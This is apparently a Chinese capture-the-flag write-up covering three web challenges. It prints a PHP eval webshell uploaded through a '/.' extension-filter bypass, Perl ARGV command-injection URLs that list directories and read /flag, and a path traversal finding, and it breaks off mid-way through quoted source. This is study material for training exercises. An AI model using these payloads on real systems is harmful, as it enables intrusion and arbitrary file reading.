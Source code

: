 然后就要文件上传，但正则过滤了后缀，并用chdir改变目录为uploaded，由于正则判断的是`.`后面的字符，用`/.`在文件名目录下在加个空目录，相当于没加，但绕过了正则。题目的上传路径为：/uploaded/backup/
POST提交`file=a.php/.&con=<?php @eval($_POST['pass']);?>`
![](https://img-blog.csdnimg.cn/20200330141847781.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
最后蚁剑连接即可
![](https://img-blog.csdnimg.cn/20200330142937476.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
这里上传路径还是有点懵，不是应该为uploaded了吗。。。。。
参考：
[攻防世界 web 进阶 ics-07](https://blog.csdn.net/weixin_42499640/article/details/99205257)
[XCTF的ics-07](https://blog.csdn.net/qq_45552960/article/details/102777514)


## i-got-id-200
发现是perl的内容，看了wp，师傅猜测的后台逻辑:
```php
use strict;
use warnings; 
use CGI;
my $cgi= CGI->new;
if ( $cgi->upload( 'file' ) ) { 
	my $file= $cgi->param( 'file' );
	 while ( <$file> ) { print "$_"; }
} 
```
在文件上传处会把上传的文件的内容在下方输出，猜测后台应该用了param()函数，如果传入一个ARGV的文件，那么Perl会将传入的参数作为文件名读出来，达到读取任意文件的目的
猜测存在/flag
![](https://img-blog.csdnimg.cn/20200330145249673.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
正常来说：根据网址猜测file.pl位于/var/www/cgi-bin/目录下
![](https://img-blog.csdnimg.cn/20200330145757228.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
执行命令`?/bin/bash%20-c%20ls${IFS}/|`，%20为空格，可换成+号
![](https://img-blog.csdnimg.cn/20200330150246555.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
最后获取flag`?/bin/bash%20-c%20cat${IFS}/flag|`
![](https://img-blog.csdnimg.cn/20200330150400451.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)

参考：[[wp] 攻防世界-i-got-id-200](https://blog.csdn.net/qq_40884727/article/details/100679503)
[xctf-i-got-id-200(perl网页文件+ARGV上传造成任意文件读取)](https://www.cnblogs.com/-chenxs/p/11953933.html)

## wtf.sh-150
没思路，看wp。~~wtf没见过，就照着wp写了~~
### 第一段flag
在展示文章的页面 post.wtf 下发现路径穿越漏洞，获得了网站源码，查找flag得到：
![](https://img-blog.csdnimg.cn/20200330153802490.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)
```php
<html>
<head>
    <link rel="stylesheet" type="text/css" href="/css/std.css" >
</head>
$ if contains 'user' ${!URL_PARAMS[@]} && file_exists "users/${URL_PARAMS['user']}"
$ then
$   local username=$(head -n 1 users/${URL_PARAMS['user']});
$   echo "<h3>${username}'s posts:</h3>";
$   echo "<ol>";
$   get_users_posts "${username}" | while read -r post; do
$       post_slug=$(awk -F/ '{print $2 "#" $3}' <<< "${post}");
$       echo "<li><a href=\"/post.wtf?post=${post_slug}\">$(nth_line 2 "${post}" | htmlentities)</a></li>";
$   done 
$   echo "</ol>";
$   if is_logged_in && [[ "${COOKIES['USERNAME']}" = 'admin' ]] && [[ ${username} = 'admin' ]]
```